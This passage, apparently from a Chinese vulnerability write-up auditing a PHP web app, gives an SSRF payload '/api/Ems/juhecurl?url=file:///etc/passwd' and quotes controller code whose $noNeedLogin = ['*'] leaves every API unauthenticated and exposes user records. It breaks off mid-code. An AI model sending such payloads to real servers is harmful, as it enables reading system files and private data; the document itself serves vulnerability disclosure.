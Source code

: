 ```
}
```  
  
**Payload:**  
```
/api/Ems/juhecurl?url=file:///etc/passwd
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5crzQm1ica4uibkrn9xtfibWnXLzNk1Cjw2FXHNzPERXXfibwz7W12rSxRtKf8pibUo9h8rzEHH3xXCq9A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5crzQm1ica4uibkrn9xtfibWnXQeb8nxaVCfuIhVIoQ3CDRrSicebSvfiblicD3b6ygBVn3jXALD7zkNN7A/640?wx_fmt=png&from=appmsg "")  
## 0x03 前台敏感信息泄露  
  
**在 /api/controller/Index.php 控制器的index方法中，很明显地存在 where 查询网站信息及User表中的字段，并且将所有用户枚举出来，且因为 $noNeedLogin = ['*'] 导致所有接口都无权限验证.**  
```
<?php
namespace app\api\controller;
use app\common\controller\Api;
/**
 * 首页接口
 */
class Index extends Api
{
  protected $noNeedLogin = ['*'];
  protected $noNeedRight = ['*'];

  /**
     * 首页
     *
     */
  public function index()
{
    $config=$this->config();
    $configs=config('site');
    $map['ishot']=2;
    $map['endtimesjc']=['>',time()];
    if(input('uid',0)>0){
      $map['uid']=input('uid');
    }
    $list =  model('Task')
      ->with('users')
      ->where($map)
      ->limit(10)
      ->select();
    if($list){
      foreach ($list as $k=>$v){
        $list[$k]['createtime']=date('Y-m-d H:i',$v['createtime']);
        if(isset($v['users']['avatar'])){
          if(strpos($v['users']['avatar'],'http') !== false){ 
            $list[$k]['avatar']=$v['users']['avatar'];
          }else{
            if($v['users']['avatar']){
              $list[$k]['avatar']= $configs['imgurl'].$v['users']['avatar'];
            }else{
              $list[$k]['avatar']=$configs['imgurl'].'/uploads/20200523/250b3f89b40ff3714b07cc51b4c2f63d.png';
            }
          } 
        }else{
          $list[$k]['avatar']=$configs['imgurl'].'/uploads/20200523/250b3f89b40ff3714b07cc51b4c2f63d.png';
        }
```
